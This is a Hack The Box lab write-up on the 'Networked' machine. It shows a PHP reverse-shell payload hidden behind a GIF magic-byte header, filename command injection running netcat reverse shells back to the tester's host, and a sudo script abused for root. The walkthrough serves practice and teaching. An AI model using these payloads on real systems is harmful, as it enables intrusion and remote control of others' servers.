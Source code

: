 ```yaml
---
layout: default
title: "Hack The Box - Networked"
date: 2019-11-16
tags: magic-bytes network-scripts "sudo -l"
---
```


# **Networked - 10.10.10.146**

####  `Networked` is a simple, straight-forward machine with no rabbit holes, which is why it is a great machine . The IP of the machine is **10.10.10.146**. This machine like most machines in **HTB** comes with lot of new things to learn.


## **1.Enumeration**
  As always, let us begin the enumeration using `nmap`
  ### 1.1 nmap
  This is the result of running `nmap -sC -sV -p- 10.10.10.146`

  ``` bash
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.30s latency).
Not shown: 997 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.29 seconds

  ```

We see tha two ports 22 and 80 are open in this machine. Considering higher probability of finding vulnerability in port 80, let us enumerate port 80.

  ### Port 80

![networked_webpage](/images/htb/Networked/networked_webpage.png)

Since we could not find much information in the webpage, let us dig in deeper and check if we can find more directories or web pages. For this let us use `GoBuster`.

``` bash
gobuster dir --url=http://10.10.10.146 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/11/16 10:23:32 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```
Now, that looks promising. Let us go check out **/backup** first.

![networked_webpage_backup](/images/htb/Networked/networked_webpage_backup.png)

We see a `backup.tar` file that we can now download and analyze.

We have downloaded it, extracted contents of the compressed tar file and we see it has the following contents.

``` bash
root@b1nbash:~/Documents/HTB/Networked/backup# ls -al
total 24
drwxr-xr-x 2 root root 4096 Nov  4 20:47 .
drwxr-xr-x 3 root root 4096 Nov  5 03:26 ..
-rw-r--r-- 1 root root  229 Jul  9 17:03 index.php
-rw-r--r-- 1 root root 2001 Jul  2 17:08 lib.php
-rw-r--r-- 1 root root 1871 Jul  2 18:23 photos.php
-rw-r--r-- 1 root root 1331 Jul  2 18:15 upload.php
root@b1nbash:~/Documents/HTB/Networked/backup#
```

Examining the contents of `upload.php` we see that only image files are allowed. If we are able to bypass this check/filtering then we may achieve LFI (Local File Inclusion) and hence, RCE (Remote Code Execution). In `upload.php` we see that the extention of uploaded file is checked and also function `check_file_type()` from `lib.php` is being called to check the file signature to confirm the file type as image. These signatures are sometimes refered to as `the magic bytes`. Researching more on evading the magic byte check while uploading a shell script, we learn that a file starting with magic bytes `GIF89a` will be considered as a GIF image file. Now let us create a file **reverse.php.gif** with following contents.

```
GIF89a;
<h1>Reverse</h1><pre>
<?php shell_exec("bash -i >& /dev/tcp/10.10.14.2/1234 0>&1");
?>
```

## **2.Exploitation**

Now that we are ready with our exploit, let us upload the exploit php script and try to get a reverse shell in netcat, now listening on port 1234.
We go to page `/upload.php` as shown below.

![network_upload_1](/images/htb/Networked/network_upload_1.png)

Now we can browse and uplad the `reverse.php.gif` file and we get the following result.

![netwrk_upload_2](/images/htb/Networked/network_upload_2.png)

To execute the php script we access `/photos.php`

![photos.php](/images/htb/Networked/network_photos.png)

We now get a reverse shell like below

![reverse-apache](/images/htb/Networked/networked_rev_shell.png)

But as we see below we are not able to access the user.txt file. To access it we have to become `guly`.


![permission-denied](/images/htb/Networked/networked_exploit_1.png)


## **3.Privilege Escalation**

### **Privilege Escalation- guly**
In the `/home/guly` directory we find a file named `check_attack.php`. Let us try to understand what the file does.

From the program we observe that `$path$value` is called to be deleted when attack observed. This is nothing but name of filenames in folder `/var/www/uploads/` with the full path. Now, if we can give a command as input to the exec() we can get code execution. This requires manupilation of file name to contain the code we need to execute.
After trying names like `10_10_14_2;nc 10.10.14.2 9000 -e sh.png`, `10_10_14_2;nc 10.10.14.2 9000 -e bash &.png`, I realised that the reverse shell closes immediately. I tried doing `nc 10.10.14.2 9000 -e bash`and the same happened. Then I tried `nc 10.10.14.2 9000 -e /bin/bash`. This time, I got a stable shell !!!
Oops, how do we give that as file name ???
I decided to take help of environment variables, checked value of `$SHELL` and found it to be `/sbin/nologin`.
I changed the value of SHELL and made changes to file name as below

``` bash
bash-4.2$ export SHELL=/bin/bash
bash-4.2$ mv '10_10_14_2;nc 10.10.14.2 9000 -e bash &.png' '10_10_14_2;nc 10.10.14.2 9000 -e $SHELL &.png'
bash-4.2$
```
And I get reverse shell as gully :D

![reverse-shell-gully](/images/htb/Networked/networked_rev_guly.png)

## **Privilege Escalation - root**

To become root, we look at the available privileges we have using `sudo -l`.
``` bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
```
So user `guly` has sudo privileges on `/usr/local/sbin/changename.sh`. Let us try running it with some random input.

![random_fuzz](/images/htb/Networked/networked_fuzz1.png)

So we observe that the input can be used to run arbitrary commands as root :)

![priv-escalate-root](/images/htb/Networked/networked_root.txt.png)

The second command given as value to PROXY_METHOD, gives us shell as root.

